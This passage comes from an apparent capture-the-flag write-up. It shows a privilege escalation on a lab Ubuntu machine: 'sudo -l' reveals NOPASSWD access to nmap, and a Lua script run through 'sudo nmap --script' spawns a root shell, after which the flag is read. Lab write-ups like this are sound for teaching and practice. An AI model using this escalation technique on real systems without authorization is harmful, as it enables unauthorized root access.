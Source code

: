 > It worked! We are now `mahakal`!
{: .prompt-info }

Now the checks for privilege escalation techniques start again.  
We begin with checking our `sudo` permissions.
```bash
mahakal@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap
```

Checking `nmap` on [`gtfobins`](https://gtfobins.github.io/gtfobins/nmap/#sudo) shows that we can escalate to `root` using it in the following way.
```bash
mahakal@ubuntu:/tmp$ TF=$(mktemp)
TF=$(mktemp)
mahakal@ubuntu:/tmp$ echo 'os.execute("/bin/sh")' > $TF
echo 'os.execute("/bin/sh")' > $TF
mahakal@ubuntu:/tmp$ sudo nmap --script=$TF
sudo nmap --script=$TF

Starting Nmap 7.60 ( https://nmap.org ) at 2023-01-11 22:19 PST
NSE: Warning: Loading '/tmp/tmp.1q24AQ7LgQ' -- the recommended file extension is '.nse'.
id
uid=0(root) gid=0(root) groups=0(root)
```

> We got root!
{: .prompt-info }

## get second flag
```bash
cd /root
ls -lsah
total 36K
4.0K drwx------  5 root root 4.0K Jan 11 22:11 .
4.0K drwxr-xr-x 22 root root 4.0K Jul  2  2020 ..
   0 -rw-------  1 root root    0 Sep  2  2020 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  2 root root 4.0K Jul  2  2020 .cache
4.0K drwx------  3 root root 4.0K Jul  2  2020 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Jun  3  2020 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Jan 11 22:11 proof.txt
4.0K -rw-r--r--  1 root root   32 Aug 18  2020 root.txt
cat proof.txt
b******************************c
```

Pwned! <@:-)
